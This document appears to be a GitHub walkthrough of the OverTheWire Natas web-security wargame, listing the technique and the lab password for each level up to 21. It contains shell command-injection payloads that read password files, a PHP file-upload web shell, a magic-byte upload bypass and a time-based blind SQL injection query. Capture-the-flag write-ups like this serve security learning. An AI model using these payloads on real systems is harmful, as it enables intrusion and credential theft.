

## Natas Level 0
Inspect


## 0 → Level 1
Inspect
```
h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7
```

## Level 1 → Level 2
http://natas2.natas.labs.overthewire.org/files/
 
Is accessible.
```
G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q
```

## Level 2 → Level 3
http://natas3.natas.labs.overthewire.org/s3cr3t/  
Is accessible.

```
natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm
```

## Level 3 → Level 4
I used burp to edit the referer

```
Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD 
```

## Level 4 → Level 5
Change coockie value to 1

```
fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
```

## Level 5 → Level 6
The source indicated we are including a file
```php
include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

```
So I added to the url path and found the secret there.

```
jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
```
## Level 6 → Level 7
```
Following the description in the comments.
?page=/etc/natas_webpass/natas8
```
```
a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB 
```

## Level 7 → Level 8
I just reversed this 
```php
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```
decode of `3d3d516343746d4d6d6c315669563362` is `==QcCtmMml1ViV3b`  
reverse: `b3ViV1lmMmtCcQ==`  
decode the reverse: `oubWYf2kBq`
```
Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd
```

## Level 8 → Level 9
I wrote this in the search bar
```bash
k ;cat /etc/natas_webpass/natas10; echo
```
```
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
```

## Level 9 → Level 10
; is not allowed but the ascii value if ; is 3B so I wrote
```bash
k $(printf "\\x3B") cat /etc/natas_webpass/natas11 $(printf "\\x3B") echo
```
```
1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
```

## Level 10 → Level 11
Data is loaded from cookies

```php
function loadData($def) {
    global $_COOKIE;
    .
    .
    .
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    .
    .
    .
}

$data = loadData($defaultdata);
```
I needed to reverse the encryption. Initially, I had the color 0xffffff. After decoding the saved data of the cookie and changing it to 0x000000, I observed the difference.
```
for 0xffffff
0l;$$98-8=?#9*jvi 'ngl*+(!$#9lrnh(.*-(.n67
for 0x000000
0l;$$98-8=?#9*jvi 'ngl*+(!$#9lrnh~x|{~xn67
```
It's easy to notice that the changed characters were `~x|{~,` and the repeated key is also quite apparent.
```php 
function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}
```
Breaking the encryption was straightforward because of the property that if a ^ b = c, then a ^ c = b. You can access the Python script [here](./natas11/reverse.py) that I used to re-encrypt it, edit the cookie, and obtain the solution.

```
pass
YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG
```
## Level 11 → Level 12
In this challenge, I was tasked with uploading a file, as shown below:   
   
After uploading the file, the system provided me with a link to access the uploaded file. My objective was to write a PHP script to retrieve and display the contents of the password file, essentially achieving Remote Code Execution (RCE).

I used Burp to modify the file's content and turned it into a PHP script. The transformation looked like this:

I used burp to edit the file content to php script.

From this

To this:


```php
<?php
$fileContents = file_get_contents('/etc/natas_webpass/natas13');
if ($fileContents === false) {
    echo 'Failed to read the file.';
} else {
    echo $fileContents;
}
?>
```
```
pass
lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9
```

## Level 12 → Level 13
Same as above but now it prevents none image file by adding.

```php
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    }
```
According to the function documentation
```
exif_imagetype() reads the first bytes of an image and checks its signature.
```
So I just left the first byte to be an image magic.

```
pass
qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP
```

## Level 13 → Level 14
Simple SQL injection you can find the solution in as a [python script](./natas14/e.py)
```
pass
TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB
```
## Level 14 → Level 15
Sulotion [here](./natas15/e.py)

TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V

## Level 15 → Level 16
For this challenge. My solution was:
1. Cat password file to temp.
2. Give it 777 permissions
3. Access level 9 where it was much easier running commands 
4. print this file.
XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd

## Level 16 → Level 17
[Challenge](./natas17/reverse.php)  
Completely blind SQL injection.
Firstly, I have to mention that the only way to crack this was by creating my own MySQL containers on my local computer and learning how SQL works 🙈 (it's been a long time since I last used MySQL).
My solution was:
```sql
SELECT * from users where username="natas18" UNION SELECT username=natas18 and IF(binary SUBSTRING(password,{i},1)=CHAR({ch}), sleep(3), "false"),"1" from users where "1"="1"
```
The full solution is [here](./natas17/e.py).

Let's break this query down to understand it.

1. SELECT * from users where username="natas18": This is the original query, selecting all columns (*) from the "users" table where the username is "natas18."

2. UNION: This is used to combine the results of the first query with the results of another query.

3. SELECT username=natas18 and IF(binary SUBSTRING(password,{i},1)=CHAR({ch}), sleep(3), "false"),"1" from users where "1"="1": This is the injected part of the query.

4. username=natas18: Assigns the value "natas18" to the column "username" in the second part of the union.

5. IF(binary SUBSTRING(password,{i},1)=CHAR({ch}), sleep(3), "false"): This is a conditional statement. It checks if the i-th character of the password, when converted to binary and compared to the character represented by the ASCII value {ch}, is true. If true, it causes a delay of 3 seconds using sleep(3). Otherwise, it returns "false."

6. "1" from users where "1"="1": This is added to complete the syntax.

## Level 17 → Level 18

Session hijacking was a topic I wasn't initially well-versed in. However, one red flag that caught my attention was the comment in the code:
```php
$maxid = 640; // 640 should be enough for everyone
```
The phrase "should be enough" or the classic "what could possibly go wrong" always sets off a warning signal. The vulnerability lies in the challenge where one can enumerate all session IDs until the admin session ID is captured. It's crucial to always adhere to best practices.
[challenge](./natas18/reverse.php)  
[solution](./natas18/e.py)


username: natas19  
password: 8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s

## Level 18 → Level 19
  
They encoded the random number as ASCII and concatenated it with the ASCII representation of -$username.

I used this [test script](./natas19/tests.py) for reaserch.  
And [this is the solution](./natas19/sol.py)


[](https://www.youtube.com/watch?v=OXC9J9e9I8g)


username: natas20  
guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH

## Level 19 → Level 20
Add new line and admin 1 so it'll set the admin to 1

Username: natas21
Password: 89OWrTkGmiLZLv12JY4tLj2c4FW0xn56

## Level 20 → Level 21

There are two files involved in this challenge.  
[main](./natas21/reverse.php)  
[Another page](./natas21/reverse2.php)  
The interesting (or concerning) aspect of the second page is that it shares the same session as the main page.  
After injecting "admin=1," I utilized the cookies to connect to the main page, and that's it. I am now a manager.  
[exploit sctript](./natas21/e.py)  

Username: natas22  
Password: 91awVM9oDiUGm33JdzM7RVLBS8bz9n0s  

## Level 21 → Level 22


